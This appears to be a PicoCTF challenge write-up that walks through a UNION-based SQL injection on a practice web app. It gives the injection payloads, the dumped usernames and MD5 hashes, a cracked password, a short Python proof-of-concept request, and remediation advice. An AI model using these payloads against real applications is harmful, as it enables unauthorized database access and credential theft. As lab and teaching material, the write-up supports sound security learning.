



# Challenge: SqlMap1
**Category:** Web Exploitation
**Difficulty:** Medium
**Points:** 300
**Platform:** PicoCTF 2026
**Author:** Aditya Sudhansu

---

## Description
A web application with a login page and an authenticated search feature. The application stores user passwords in unsalted MD5 format and contains a SQL injection vulnerability in the search parameter of `vuln.php`.

## Target
- **URL:** http://lonely-island.picoctf.net:58918/
- **Vulnerable Endpoint:** `/vuln.php`
- **Vulnerable Parameter:** `q` (GET)
- **Backend Database:** SQLite
- **Web Stack:** Apache 2.4.66, PHP 8.2.30, Linux Debian

---

## Vulnerability
- **Type:** SQL Injection (UNION-based)
- **CWE:** CWE-89 — Improper Neutralization of Special Elements used in SQL Command
- **CVSS Score:** 9.8 (Critical)
- **Authentication Required:** Yes (post-login)

The search parameter `q` on `vuln.php` is directly interpolated into a SQL `LIKE` query without sanitization or parameterized queries, allowing an attacker to inject arbitrary SQL and extract data from the database.

**Vulnerable SQL pattern (assumed):**
```sql
SELECT name, value FROM flags WHERE name LIKE '%{INPUT}%'
```

---

## Exploitation Steps

### Step 1 — Authenticated Access
The attacker accessed the application and obtained a valid session cookie (`PHPSESSID`) by logging into the application.

### Step 2 — Injection Point Discovery
The search box on `/vuln.php` was identified as injectable. Using `%` as the base search term (to match all records) and appending a SQL `AND` condition, true/false responses were confirmed via page length difference:
- **TRUE response** → 2259 bytes (results shown)
- **FALSE response** → 1594 bytes (no results shown)

**True payload:**
`%' AND CASE WHEN (1=1) THEN 1 ELSE 0 END-- -`

**False payload:**
`%' AND CASE WHEN (1=2) THEN 1 ELSE 0 END-- -`

### Step 3 — UNION Injection to Dump Users Table
A UNION-based injection was crafted to extract the users table in a single HTTP request by appending it to the flags table query:

**Payload:**
`%' UNION SELECT username,password FROM users-- -`

**Full injected query (reconstructed):**
```sql
SELECT name, value FROM flags WHERE name LIKE '%%' 
UNION SELECT username,password FROM users-- -%'
```

**Response revealed:**
- `admin` → `5a9a79d9fa477ed163b89088681672c9` (MD5, not cracked)
- `ctf-player` → `7a67ab5872843b22b5e14511867c4e43` (MD5)
- `ghost` → `8d2379c40704bed972e55680be2355e2` (MD5, not cracked)
- `malicious` → `a669d60c31ad3d05b9e453c8576c7aab` (MD5, not cracked)



### Step 4 — MD5 Hash Cracking
The MD5 hash for `ctf-player` was submitted to CrackStation, an online rainbow table lookup service.
- **Hash:** `7a67ab5872843b22b5e14511867c4e43`
- **Result:** `dyesebel`
- **Type:** MD5 (exact match)



### Step 5 — Authentication and Flag Retrieval
Logged into the application at `/index.php` using:
- **Username:** `ctf-player`
- **Password:** `dyesebel`

The flag was displayed on the authenticated dashboard page.



---

## Proof of Concept (Python)
```python
import requests, re

URL    = "http://TARGET/vuln.php"
COOKIE = {"PHPSESSID": "SESSION_ID_HERE"}

payload = "%' UNION SELECT username,password FROM users-- -"
r = requests.get(URL, params={"q": payload}, cookies=COOKIE)
print(r.text)
```

---

## Root Cause
1. No input sanitization on the `q` parameter
2. Raw string interpolation into SQL query (no prepared statements)
3. Passwords stored as unsalted MD5 — trivially reversible via rainbow tables
4. No WAF or query anomaly detection in place

## Impact
- Full database read access including all user credentials
- Account takeover for any user whose MD5 hash appears in public rainbow tables
- Access to sensitive flag/data records across all tables
- Potential for further exploitation (DROP, INSERT depending on DB user privileges)

## Remediation
1. **Use parameterized queries / prepared statements:**
   ```php
   $stmt = $pdo->prepare("SELECT * FROM flags WHERE name LIKE ?");
   $stmt->execute(["%$input%"]);
   ```
2. **Hash passwords with bcrypt or Argon2 (never MD5/SHA1):**
   `password_hash($password, PASSWORD_BCRYPT);`
3. Implement input validation and allowlisting
4. Apply principle of least privilege on DB user
5. Deploy a WAF to detect SQLi patterns

---

## Flag
`picoCTF{F0uNd_s3cr3T_K3y_f0R_w3_<>}`

## Tools Used
- **sqlmap 1.10.4** (initial detection)
- **Python 3 + requests** (UNION exploitation)
- **CrackStation** (MD5 hash cracking)
- **Browser DevTools** (session management)
